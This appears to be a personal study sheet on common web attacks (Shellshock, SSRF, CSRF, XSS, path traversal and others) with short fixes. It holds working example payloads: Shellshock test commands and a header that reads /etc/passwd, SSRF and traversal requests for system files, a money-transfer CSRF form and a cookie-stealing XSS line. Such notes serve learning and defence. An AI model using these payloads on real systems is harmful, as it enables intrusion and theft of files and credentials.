 Security Attacks
-

#### HTTP Desync Attack (Request Smuggling)

#### ~~Shellshock (bashdoor, CVE-2014-6271)~~

````sh
# CVE-2014-6271
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"

# CVE-2014-7169
env X='() { (a)=>\' bash -c "echo date"; cat echo

# CVE-2014-7186
bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' ||
echo "CVE-2014-7186 vulnerable, redir_stack"

# CVE-2014-7187
(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash ||
echo "CVE-2014-7187 vulnerable, word_lineno"
````

````sh
GET http://shellshock.testsparker.com/cgi-bin/netsparker.cgi HTTP/1.1
User-Agent: Netsparker
Host: shellshock.testsparker.com
Referer: () { :;}; echo "NS:" $(</etc/passwd)

HTTP/1.0 200 OK
Server: nginx/1.2.1
Date: Fri, 26 Sep 2014 11:22:43 GMT
Content-Type: text/html
NS: root:x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/bin/sh
bin: x:2:2:bin:/bin:/bin/sh
sys: x:3:3:sys:/dev:/bin/sh
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/bin/sh
man: x:6:12:man:/var/cache/man:/bin/sh
lp: x:7:7:lp:/var/spool/lpd:/bin/sh
mail: x:8:8:mail:/var/mail:/bin/sh
news: x:9:9:news:/var/spool/news:/bin/sh
uucp: x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy: x:13:13:proxy:/bin:/bin/sh
www-data: x:33:33:www-data:/var/www:/bin/sh
backup: x:34:34:backup:/var/backups:/bin/sh
list: x:38:38:Mailing List Manager:/var/list:/bin/sh
irc: x:39:39:ircd:/var/run/ircd:/bin/sh
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody: x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid: x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim: x:101:103::/var/spool/exim4:/bin/false
messagebus: x:102:106::/var/run/dbus:/bin/false
avahi: x:103:107:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
sshd: x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql: x:105:111:MySQL Server,,,:/nonexistent:/bin/false
Connection: close
````

#### Server-Site Request Forgery (SSRF)

````php
<?php
$image = fopen($_GET['url'], 'rb');
````
and
````sh
GET /?url=http://localhost/server-status HTTP/1.1
GET /?url=file:///etc/passwd HTTP/1.1
GET /?url=dict://localhost:11211/stat HTTP/1.1
````

FIX:
* Use whitelist for internal services.
* Use only http & https (ports: 80 & 443).

#### Cross-Site Request Forgery (CSRF)

AIM: Force end user to execute unwanted actions (submitting a malicious request)
on a web application in which they're currently authenticated.
Perform action on the victim's behalf.

````
<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>

<form action="http://bank.com/transfer.do" method="POST">
<input type="hidden" name="acct" value="MARIA"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
````

FIX: CORS (if browser support CORS) or CSRF token.

#### DDos (Denial-of-service)

A distributed DDoS is a cyber-attack where the perpetrator uses more than one unique IP address,
often thousands of them.

Distributed autoscale systems may try to cope with DDoS.

#### Cross-Site Scripting (XSS)

Occur when:
data enters through an untrusted source;
dynamic content validation.

Categories:
* stored (database)
* reflected (response includes some malicious input)
* DOM - malicious data does not touch the web server
* self - user has own xss on own social page or something like that

````sh
w.Header().Set("X-XSS-Protection", "0")

<b onmouseover=alert('Wufff!')>click me!</b>
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>

<? php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
// http://testsite.test/<script>alert("TEST");</script>
?>
````

FIX:
Filter input escape output.
Use `.innerText` instead of `.innerHtml`
The use of `.innerText` will prevent most XSS problems as it will automatically encode the text.

#### A1 Injection

SQL Injection and whatnot.

#### ~~XML External Entity (XXE)~~

Is a type of attack against an application that parses XML input,
occurs when XML input containing a reference to an external entity
is processed by a weakly configured XML parser.

#### ~~Clickjacking (UI redress attack)~~

The hacker can only send a single click.

For example, imagine an attacker who builds a web site that has a button on it that says "click here for a free iPod".
However, on top of that web page, the attacker has loaded an iframe with your mail account,
and lined up exactly the "delete all messages" button directly on top of the "free iPod" button.

FIX: Headers `X-Frame-Options: DENY, X-Frame Options: DENY, X-Frame Options: SAMEORIGIN`.

#### Directory (path) traversal attack

AKA: ../ (dot dot slash) attack.
AIM: gain unauthorized access to the file system.

It is exploiting insufficient security validation / sanitization of user-supplied input file names.

````php
<?php
$template = 'red.php';
if (isset($_COOKIE['TEMPLATE']))
   $template = $_COOKIE['TEMPLATE'];
include ("/home/users/phpguru/templates/" . $template);
````
````
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
````

FIX: Query string is usually URI decoded before use.

#### Insecure Deserialization

Never deserialize untrusted data
(crossed trust doundary, couldn't have been modified).

#### ~~JSON hijacking~~

In early versions of browsers the JSON file could be loaded as a normal script.
